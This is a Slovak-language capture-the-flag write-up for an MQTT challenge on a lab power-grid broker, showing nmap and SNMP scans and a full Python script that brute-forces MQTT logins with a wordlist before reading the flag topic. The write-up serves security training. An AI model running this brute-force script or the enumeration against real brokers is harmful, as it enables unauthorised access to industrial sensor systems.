 # Zadanie

Hi, emergency troubleshooter,

sensor data from the distribution network are being continuously transmitted to `broker.powergrid.tcc`. However, the outsourced provider went bankrupt last week, and no one else has knowledge of how to access these data. Find out how to regain access to the sensor array data.

Stay grounded!

## Riešenie

Ako už zadanie nepovedá, zrejme pôjde o MQTT a bude otvorený port 1883, overím cez nmap. 

```shell
$ nmap -Pn -p 1883 broker.powergrid.tcc
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-20 20:05 CEST
Nmap scan report for broker.powergrid.tcc (10.99.25.50)
Host is up (0.017s latency).
Other addresses for broker.powergrid.tcc (not scanned): 2001:db8:7cc::25:50

PORT     STATE SERVICE
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
```

Je to tak, ale pri pokuse o pripojenie mi hlási 

```shell
$ mosquitto_sub -h broker.powergrid.tcc -p 1883 -t '#' -v
Connection error: Connection Refused: not authorised.
```

Meno a heslo však neviem, zrejme bude treba brute-forceovať, resp. použiť nejaký slovníkový útok. Najčastejšie používam list common.txt a rockyou.txt. Skúsim menší, common.txt a vzhľadom na to, že neviem ani meno, ani heslo, skúsim najprv tak, že meno aj heslo budú rovnaké.

```python
# mqtt_brute_fixed.py
import time, random, string, sys
from threading import Event
import paho.mqtt.client as mqtt

HOST = "broker.powergrid.tcc"
PORT = 1883
CONNECT_TIMEOUT = 4.0
MSG_WAIT = 2.0
with open("common.txt", "r") as f:
    creds = [line.strip() for line in f if line.strip()]

def try_creds(up):
    connect_event = Event()
    message_event = Event()
    rc_holder = {"rc": None}
    msg_preview = {"topic": None, "payload": None}

    cid = "ctf-" + ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(6))

    def on_connect(client, userdata, flags, rc):
        rc_holder["rc"] = rc
        if rc == 0:
            client.subscribe("#", qos=0)
        connect_event.set()

    def on_message(client, userdata, msg):
        msg_preview["topic"] = msg.topic
        try:
            msg_preview["payload"] = msg.payload.decode("utf-8", errors="replace")
        except Exception:
            msg_preview["payload"] = repr(msg.payload[:120])
        message_event.set()
        client.disconnect()

    client = mqtt.Client(client_id=cid, protocol=mqtt.MQTTv311, clean_session=True)
    if up:
        client.username_pw_set(up, up)

    client.on_connect = on_connect
    client.on_message = on_message

    try:
        client.connect(HOST, PORT, keepalive=30)
    except Exception as e:
        print(f"[!] Connection error for {up}:{up} -> {e}")
        return False, None

    client.loop_start()
    connected = connect_event.wait(CONNECT_TIMEOUT)
    if not connected:
        client.loop_stop()
        return False, None

    rc = rc_holder["rc"]
    if rc != 0:
        client.loop_stop()
        return False, rc

    got_msg = message_event.wait(MSG_WAIT)
    client.loop_stop()

    if got_msg:
        tp = msg_preview["topic"]
        pl = msg_preview["payload"]
        print(f"[+] SUCCESS {up}:{up} -> sample: {tp} {pl[:200]!r}")
        return True, rc
    else:
        print(f"[i] Auth ok for {up}:{up} (rc={rc}) but no $SYS messages within {MSG_WAIT}s")
        return True, rc

if __name__ == "__main__":
    for name in creds:
        print(f"[*] Trying {name}:{name}")
        ok, rc = try_creds(name)
        if ok:
            print(f"\n[!] WIN: username='{name}' password='{name}' (rc={rc})\n")
            sys.exit(0)
    print("[-] No creds matched.")
```

Skript sa teda podaril, meno aj heslo sú rovnaké, posledné riadky z výstupu sú

```log
...
[*] Trying reader:reader
[+] SUCCESS reader:reader -> sample: sensors/dev3 'TEST{84GL-Fm58-wE4P-rB54}'

[!] WIN: username='reader' password='reader' (rc=0)
```

teraz použijem `mosquitto_sub` a uvidím, čo sa tam publishuje.

```shell
$ mosquitto_sub -h broker.powergrid.tcc -p 1883 -u reader -P reader -t '#' -v
sensors/dev3 TEST{84GL-Fm58-wE4P-rB54}
sensors/dev1 TEST{1vX4-7hk7-a16H-pi45}
sensors/dev2 TEST{bvX2-B8k7-3b6H-MY8p}
sensors/prod FLAG{0hs0-SiJm-TO5B-46HD}
sensors/dev3 TEST{84GL-Fm58-wE4P-rB54}
sensors/dev1 TEST{1vX4-7hk7-a16H-pi45}
sensors/dev2 TEST{bvX2-B8k7-3b6H-MY8p}
```

Vac mi netreba. Vlajka ma vlastný topic, stačí počkať max 4s a vlajka sa objaví.

---------------------

Po odoslaní write-upu autorom mi odpísali

> U úlohy "Sensor array" by Vám pomohlo udělat ještě UDP scan, tam se  
> skrývá nápověda, která by velmi zjednodušila až odstranila nutnost  
> bruteforce.



Vôbec mi to nenapadlo v čase riešenia, dodatočne som teda pozrel a skutočne.

```
$ sudo nmap -Pn -sU --top-ports 10 broker.powergrid.tcc
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-31 19:15 CET
Nmap scan report for broker.powergrid.tcc (10.99.25.50)
Host is up (0.018s latency).
Other addresses for broker.powergrid.tcc (not scanned): 2001:db8:7cc::25:50

PORT     STATE  SERVICE
53/udp   closed domain
67/udp   closed dhcps
123/udp  closed ntp
135/udp  closed msrpc
137/udp  closed netbios-ns
138/udp  closed netbios-dgm

   161/udp  open   snmp

445/udp  closed microsoft-ds
631/udp  closed ipp
1434/udp closed ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 5.78 seconds
```

Je tu otvorený udp port 161. Odtrhol som ho pre zvýraznenie.

```
$ snmpwalk -v 2c -c public broker.powergrid.tcc


iso.3.6.1.2.1.1.1.0 = STRING: "MQTT broker for power grid sensors. Only reader has the rights to subscribe to a topic!"
iso.3.6.1.2.1.1.3.0 = Timeticks: (111704874) 12 days, 22:17:28.74
iso.3.6.1.2.1.1.5.0 = STRING: "Mosquitto"
iso.3.6.1.2.1.1.6.0 = STRING: "DC A, area 51"
iso.3.6.1.2.1.1.7.0 = INTEGER: 1
iso.3.6.1.2.1.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)

```

Je to skutočne tak, 
`Only reader has the rights to subscribe to a topic!`

Meno používateľa by som mal známe hneď a pravdepodobne by som skúsil rovnaké heslo.

## Vlajka

    FLAG{0hs0-SiJm-TO5B-46HD}
